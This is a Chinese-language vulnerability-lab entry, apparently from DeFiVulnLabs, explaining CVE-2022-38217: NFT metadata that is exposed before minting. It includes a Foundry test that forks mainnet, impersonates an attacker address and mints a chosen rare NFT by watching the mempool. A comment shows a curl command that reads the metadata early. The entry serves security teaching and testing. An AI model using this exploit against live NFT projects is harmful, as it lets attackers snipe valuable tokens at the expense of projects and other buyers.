

# 通过暴露的元数据铸造NFT
[NFTMint_exposedMetadata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/NFTMint_exposedMetadata.sol)  
**名称：** NFT通过暴露的元数据进行铸造的漏洞  
**描述：**  
该合约容易受到CVE-2022-38217的影响，这可能会导致项目中所有NFT的元数据提前披露。  
因此，攻击者可以找到有价值的NFT，然后通过监控mempool来瞄准特定 NFT的铸造，并在二级市场上出售NFT以获取利润。  
问题是元数据是在铸造完成后才能可见的  

**参考：**  
https://twitter.com/Supremacy_CA/status/1596176732729769985  
https://medium.com/@Supremacy_Official/evilreveal-cve-2022-38217-a-nuclear-weapon-level-generic-vulnerability-buried-under-the-nft-5112724dabb  

**合约：**  

```
contract ContractTest is DSTest {
    IFantasticWeslie nftContract =
        IFantasticWeslie(0xf6FFBa463e46087FcdC3a51391bB675B0e2C1a40); // 神奇的韦斯利（一种类型的狗）

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    bytes32[] merkleTreeProof;

    function setUp() public {
        cheats.createSelectFork("mainnet", 16023847);
    }
}
```  
**如何测试：** 
forge test --contracts src/test/NFTMint_exposedMetadata.sol-vvvv  


```
function testExploit() public {
        //由于合约容易受到CVE-2022-38217的影响
        //这可能会导致项目中所有NFT的元数据提前公开
        //因此，攻击者可以找到有价值的NFT，然后通过监控Mempool来瞄准铸造指定的NFT，并在二级市场上出售NFT以获取利润

        //例如，假设攻击者发现NFT#142是一种罕见的NFT，现在他只需监控内存池，直到NFT#141被铸造，然后再铸造NFT#142
        //通过cURL查看NFT的元数据 -> curl -k https://bafybeic23x4v75z7isyqhy5p6ylzqutm6lnpobwngaouovdu6qjjvt4wpu.ipfs.dweb.link/142.json
        //问题是元数据只有在铸造完成后，才能可见

        //以太坊上的交易- 0xfa4434236d2a9717e3410d7cdc60eed6acfddb054f58bc779c07349a1f45ce6b
        //以太坊上的交易 - 0x24af97355f6cec4ae02fff8bbf7144a02857e3ffd36a650aa295c62f6272cc83

        address attacker = 0x1fCebBb5D3EACd26e70b0BD1E54a979a479906aA;
        cheats.prank(attacker);

        merkleTreeProof.push(
            0x0ea49bae9ab4f8b82fb0e0b5e876576c9a4a945edc2fa5a7b448fad470802ae6
        );
        merkleTreeProof.push(
            0x852233af3700b87dc51f6abf53d4f935746d746d84a33d4d7e6302d9c110fedd
        );
        merkleTreeProof.push(
            0x5de513269badb3a0b73e237a9f28f86994791f4421effd1865df975a0f8ee52c
        );
        merkleTreeProof.push(
            0xe52d780f15394a8f6254f328ca06a66909c41f1ee3adab33d02cd087f8c37604
        );
        merkleTreeProof.push(
            0xede88505e4259ab482a1019cc8d4364cf9e1e7866768245854c0f6e369d2b08c
        );
        merkleTreeProof.push(
            0x776fee48d9285a8e2d1ecde47354e9ebe91b10f0b5f2d754968af831a7047808
        );
        merkleTreeProof.push(
            0x3d13c4757d9e35123b8785040c29f232483941fb7d591b1a94167c1ca5e8875f
        );
        merkleTreeProof.push(
            0xc36c091c358833709f1b6f44e783e5d9ad5ad9f5f0ee09a37c376fd354827fb1
        );
        merkleTreeProof.push(
            0xce26991b2af9fc0fb807aea36667d37439ae7122d3ea8edcbfe92b04bf674922
        );
        merkleTreeProof.push(
            0x8452c207732923a758c53fb296f3d88340a04fe9c381c73ba44343a45340953e
        );
        merkleTreeProof.push(
            0xcc44822b3b5a19839899f6795622daff3bab327895558977ea58a30a42c6a49e
        );
        merkleTreeProof.push(
            0x45c575962e5a88b5e8c3aedf4e3e74306d0124f4cc86c25bc4cd1bcae16c54a0
        );

        nftContract.mint{value: 0.12 ether}(merkleTreeProof);

        console.log("Owner of NFT#142 : ", nftContract.ownerOf(142));
    }  
 ```

 


